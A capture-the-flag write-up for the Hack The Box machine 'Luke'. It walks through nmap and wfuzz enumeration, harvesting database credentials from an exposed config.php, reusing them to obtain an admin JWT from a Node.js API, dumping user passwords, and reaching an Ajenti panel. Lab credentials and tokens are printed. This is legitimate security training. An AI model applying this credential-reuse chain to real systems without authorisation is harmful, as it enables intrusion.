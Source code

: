 ```yaml
---
layout: post
title: "HTB Writeup - Luke"
date: 2019-07-24 12:00:00 +0000
---
```


# HTB writeup - Luke
<br />
As always let's start with nmap:
```
root@kali:~/# nmap -sV -sT -sC -o nmapinitial luke.htb
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-13 12:57 EET
Nmap scan report for luke.htb (10.10.10.137)
Host is up (0.23s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3+ (ext.1)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0             512 Apr 14 12:35 webapp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.xx.xx
|      Logged in as ftp
|      TYPE: ASCII
|      No session upload bandwidth limit
|      No session download bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3+ (ext.1) - secure, fast, stable
|_End of status
22/tcp   open  ssh?
80/tcp   open  http    Apache httpd 2.4.38 ((FreeBSD) PHP/7.3.3)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.38 (FreeBSD) PHP/7.3.3
|_http-title: Luke
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
8000/tcp open  http    Ajenti http control panel
|_http-title: Ajenti

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 202.84 seconds
root@kali:~/Desktop/HTB/boxes/luke#
```

The first noteceable thing is the FTP service which appears to be quite updated, therefore I don't want to investigate it at the moment. However, It allows anonymous login.
We then have HTTP on ports 80, 3000, 8000 and SSH.
From the banners grabbed by nmap, we can see that on port 3000 there is a node.js application, on port 8000 Ajenti Administration Panel. 

Logging in anonymously on the FTP, the only thing we find is a message giving us two potential usernames: Chihiro and Derry. 

# HTTP on 80
On the port 80 we find a simple HTML website: 
<img src="/assets/luke1.PNG" alt="drawing" width="600"/>

Bruteforcing the directories: 
```
root@kali:~/# wfuzz -c --hc 404 -u http://luke.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt  

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://luke.htb/FUZZ
Total requests: 4614

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000011:  C=403      9 L       24 W          213 Ch        ".hta"
000001:  C=200    108 L      240 W         3138 Ch        ""
000012:  C=403      9 L       24 W          218 Ch        ".htaccess"
000013:  C=403      9 L       24 W          218 Ch        ".htpasswd"
001114:  C=301      7 L       20 W          228 Ch        "css"
002020:  C=200    108 L      240 W         3138 Ch        "index.html"
002179:  C=301      7 L       20 W          227 Ch        "js"
002282:  C=200     21 L      172 W         1093 Ch        "LICENSE"
002435:  C=401     12 L       46 W          381 Ch        "management"
002485:  C=301      7 L       20 W          231 Ch        "member"
004286:  C=301      7 L       20 W          231 Ch        "vendor"

Total time: 116.3713
Processed Requests: 4614
Filtered Requests: 4603
Requests/sec.: 39.64892

root@kali:~/Desktop/HTB/boxes/luke# wfuzz -c --hc 404 -u http://luke.htb/FUZZ.php -w /usr/share/wordlists/dirb/common.txt                                                                                         

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.                                                         

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://luke.htb/FUZZ.php
Total requests: 4614

==================================================================
ID   Response   Lines      Word         Chars          Payload
==================================================================

000011:  C=403      9 L       24 W          217 Ch        ".hta"
000012:  C=403      9 L       24 W          222 Ch        ".htaccess"
000013:  C=403      9 L       24 W          222 Ch        ".htpasswd"
000994:  C=200      6 L       25 W          202 Ch        "config"
002347:  C=200     39 L      118 W         1593 Ch        "login"

Total time: 140.0363
Processed Requests: 4614
Filtered Requests: 4609
Requests/sec.: 32.94859
```

We got /management, /member, /config.php and /login.php. 

The only interesting things I found are some db credentials on config.php: 
```
$dbHost = 'localhost'; $dbUsername = 'root'; $dbPassword = 'Zk6heYCyv6ZE9Xcg'; $db = "login"; $conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error); 
```

I usualy take note of all the logins location. I tried several with those creds, with no luck. 
The only thing left is the node.js application, which uses JWT tokens for auth: 
```
root@kali:~/Desktop/HTB/boxes/luke# curl http://luke.htb:3000/
{"success":false,"message":"Auth token is not supplied"}
```

Googling the response, I found [this article on medium](https://medium.com/dev-bits/a-guide-for-adding-jwt-token-based-authentication-to-your-single-page-nodejs-applications-c403f7cf04f4).

Fuzzing the application, we can see that the /login does exist:
```
root@kali:~/Desktop/HTB/boxes/luke# wfuzz -c --hc 404 -u http://luke.htb:3000/FUZZ -w /usr/share/wordlists/dirb/common.txt

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://luke.htb:3000/FUZZ
Total requests: 4614

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000001:  C=200      0 L        5 W           56 Ch        ""
002347:  C=200      0 L        2 W           13 Ch        "login"
002348:  C=200      0 L        2 W           13 Ch        "Login"
004245:  C=200      0 L        5 W           56 Ch        "users"

Total time: 147.3540
Processed Requests: 4614
Filtered Requests: 4610
Requests/sec.: 31.31234
```

I tried logging in with the username admin and it worked:
```
curl --header "Content-Type: application/json" --request POST --data '{"password":"Zk6heYCyv6ZE9Xcg","username":"admin"}' http://luke.htb:3000/login 
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4MzczNjA0LCJleHAiOjE1Njg0NjAwMDR9.Xt854IyFtvP4nQbQa_l63hIJ3aewfVT98gqz5gfU5Us"}
```

We now have access to the application with our token!

/users now returns a list of user; /users/username reveals more info about each user:
```
root@kali:~/Desktop/HTB/boxes/luke# curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4MzczNjA0LCJleHAiOjE1Njg0NjAwMDR9.Xt854IyFtvP4nQbQa_l63hIJ3aewfVT98gqz5gfU5Us' http://luke.htb:3000/users/derry
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
```
It is possible to login to /management as Derry. Here we found the credentials for Ajenti, which is a tool to manage a remote Linux using terminal, file manager...etc. 
Once we got access to Ajenti, we owned the box! 



